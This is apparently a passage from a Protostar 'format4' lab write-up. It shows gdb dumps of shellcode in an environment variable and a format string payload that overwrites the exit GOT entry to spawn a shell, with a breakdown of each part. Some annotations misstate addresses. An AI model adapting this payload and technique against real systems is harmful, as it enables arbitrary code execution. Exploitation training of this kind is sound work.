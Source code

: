 **NOTE:** As `setuid` is set on the binary, a copy of it is required. This is done in order to launch it as the current user and be able to attach gdb.

```
user@protostar:~$ ps au
USER       PID %CPU %MEM    VSZ   RSS TTY      STAT START   TIME COMMAND
...
user      1999  0.0  0.0   1532   296 pts/0    S+   05:10   0:00 ./format4
user      2001  0.0  0.0   3868  1012 pts/1    R+   05:10   0:00 ps au
```

```
(gdb) attach 1999
Attaching to process 1999
Reading symbols from /home/user/format4...done.
...
(gdb) x/1000s $esp
...
0xbfffffcc:     "./format4"
0xbfffffd6:     "S=\231\367\342\215\b\276//sh\277/binQVW\215\034$\260\v̀"
0xbffffff2:     "./format4"
0xbffffffc:     ""
0xbffffffd:     ""
0xbffffffe:     ""
0xbfffffff:     ""
```

As the variable is stored almost at the top of the stack (stack starts at 0xbfffffff), it is safe to asume that our variable will always be stored in 0xbfffffd6. And the shellcode payload would start two bytes from there (to acommodate the string "S="). This can be verified by dumping the hexadecimal values:

```
(gdb) x/10x 0xbfffffd8
0xbfffffd8:    0x8de2f799    0x2f2fbe08    0x2fbf6873    0x516e6962
0xbfffffe8:    0x1c8d5756    0xcd0bb024    0x2f2e0080    0x6d726f66
0xbffffff8:    0x00347461    0x00000000
```

**NOTE:** System is little-endian, so bytes are written backward (LSB first).

Now that the desired target address is known (`0xbfffffd8`), the next step is to overwrite the `exit` GOT entry to point to it. This is done with the following format string payload.

```
"\x26\x97\x04\x08\x24\x97\x04\x08%49143x%4$hn%16345x%5$hn"
```

`exit` GOT entry is stored in 0x08049724, as stated in the previous section. An address in this architecture is represented by 4 bytes, so two short (2 byte) writes are used. The payload can be broken as:

```
\x26\x97\x04\x08     => 0x0804097026 Write target address

\x24\x97\x04\x08     => 0x0804097024 Write target address
                     => At this point 8 characters have been written
                     
%49143x              => Write 49143 additional characters = 0xBFFF

%4$hn                => Write a short with the number of the outputted chars
                     => into the 4th stack space value (contains 0x0804097026)
                     
%16345x              => Write 16345 additional characters = 0xFFD8

%5$hn                => Write a short with the number of the outputted chars
                     => into the 4th stack space value (contains 0x0804097024)
```
